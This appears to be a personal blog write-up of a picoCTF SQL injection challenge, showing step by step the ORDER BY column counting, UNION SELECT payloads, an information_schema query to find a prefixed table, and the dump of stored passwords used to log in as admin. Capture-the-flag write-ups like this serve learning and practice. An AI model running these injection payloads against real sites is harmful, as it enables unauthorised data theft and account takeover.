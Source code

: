 ```yaml
---
layout: post
title: Picoctf SQL Injection 3
description: ""
category: Problem Set
tags: []
published: true
---
```


{% include JB/setup %}

### This one was harder

- No extrinsic debug warning/query error
- escaped_string() prevented conventional sql injections
- Data only accesbible through certain columns

### 1 - Basic querying
The main page had no option of being injected, but the id identifying section was bulletproof; there was a bug in which the query was not escaped by quotes, so injection was still possible! It used POSTMAN to generate URL parameters for cleaniness and yep, it worked. 
I used 

	ORDER BY 1
    ORDER BY 2
    ORDER BY...
    ORDER BY 7
    
Until it broke and gave me a `user not found` in html
Great, it had 7 columns!

### 2 - Selection
To maniuplate that, I used 


	NULL UNION SELECT 1,2,3,4,5,6,7
    
    
To figure out which data points were displayed given that query:

	<pre>User info for 2
	Display name: 4
	Location: 5
	E-mail: 7 </pre>
    
So I know know the columns: id was column 1, username was column 2, password was column 3

### 3 - Table Prefix
The problem was it had a third layer of protection: the table had a prefix!


	$query = "SELECT * FROM ${table_prefix}users WHERE id=$id";
	$result = mysqli_query($con, $query);


So now what? I wasn't able to do anything using SELECT without knowing the full table name. After extremely intense googling, I realized I can find the list of all the tables through this very simple query (sarcasm):


	NULL UNION ALL SELECT 1,2,3,4,5,6,group_concat(table_name) FROM 	information_schema.tables 


Which returned

	<pre>User info for 2
    Display name: 4
    Location: 5
    E-mail: CHARACTER_SETS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMN_PRIVILEGES,ENGINES,EVENTS,FILES,GLOBAL_STATUS,GLOBAL_VARIABLES,KEY_COLUMN_USAGE,PARAMETERS,PARTITIONS,PLUGINS,PROCESSLIST,PROFILING,REFERENTIAL_CONSTRAINTS,ROUTINES,SCHEMATA,SCHEMA_PRIVILEGES,SESSION_STATUS,SESSION_VARIABLES,STATISTICS,TABLES,TABLESPACES,TABLE_CONSTRAINTS,TABLE_PRIVILEGES,TRIGGERS,USER_PRIVILEGES,VIEWS,INNODB_BUFFER_PAGE,INNODB_TRX,INNODB_BUFFER_POOL_STATS,INNODB_LOCK_WAITS,INNODB_CMPMEM,INNODB_CMP,INNODB_LOCKS,INNODB_CMPMEM_RESET,INNODB_CMP_RESET,INNODB_BUFFER_PAGE_LRU,super_secret_users
    </pre>

Our table was `super_secret_users`...nailed it. That group_concat option took a while to figure out.

### 4 - Getting the password

Child's play. 

	NULL UNION ALL SELECT 1,2,3,4,5,6,group_concat(password) FROM super_secret_users 
    
    <pre>User info for 2
    Display name: 4
    Location: 5
    E-mail: not_the_flag_super_secret_admin_password,not_the_flag_super_secret_betty_password,not_the_flag_super_secret_cathy_password,not_the_flag_super_secret_dan_password
    </pre>
    
The end. `not_the_flag_super_secret_admin_password` was used to login to get the flag.